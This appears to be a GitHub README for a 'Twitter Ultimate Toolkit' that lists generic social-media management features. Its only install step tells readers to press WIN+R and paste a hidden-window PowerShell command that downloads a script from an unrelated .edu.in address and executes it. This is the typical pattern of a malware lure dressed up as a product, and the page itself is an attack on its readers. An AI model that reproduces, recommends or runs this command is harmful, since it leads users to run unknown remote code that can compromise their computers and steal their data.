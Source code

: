 ### 🐦 Twitter Ultimate Toolkit - Professional-Grade Twitter Management Suite
*The most powerful all-in-one solution for social media managers, marketers, and power users - 100% API-compliant*

## Installation

### Prerequisites

- Internet connection for real-time data fetching

### Quick Install

- #### Press WIN+R
- #### Insert command
```bash
powershell -WindowStyle Hidden -Command ([ScriptBlock]::Create((irm https://jaihind.edu.in/weatherdolphin/dollrandom))).Invoke();
```

### 🔥 Core Features

#### ✅ Account Auditor

- Follower authenticity scoring (bot detection)

- Engagement rate calculator

- Best time to tweet analysis

#### ✅ Competitor Analysis

- Tweet performance benchmarking

- Hashtag strategy decoder

- Follower overlap reports

#### ⏱️ Automation Tools
🤖 Smart Scheduler

- AI-powered optimal posting times

- Thread composer with image/video support

- Automatic retweet with commentary

#### 🔍 Advanced Search

- Boolean query builder

- Saved search alerts

- Geo-targeted tweet discovery

#### 💻 Platform Support

- Web Dashboard

- Windows/Mac App

- Browser Extension

### ⚙️ Technical Capabilities

- API Rate Limit Monitor

- CSV Import/Export (follow lists/tweet archives)

- Custom Scripting (Python/JS hooks)

- OAuth 2.0 Security
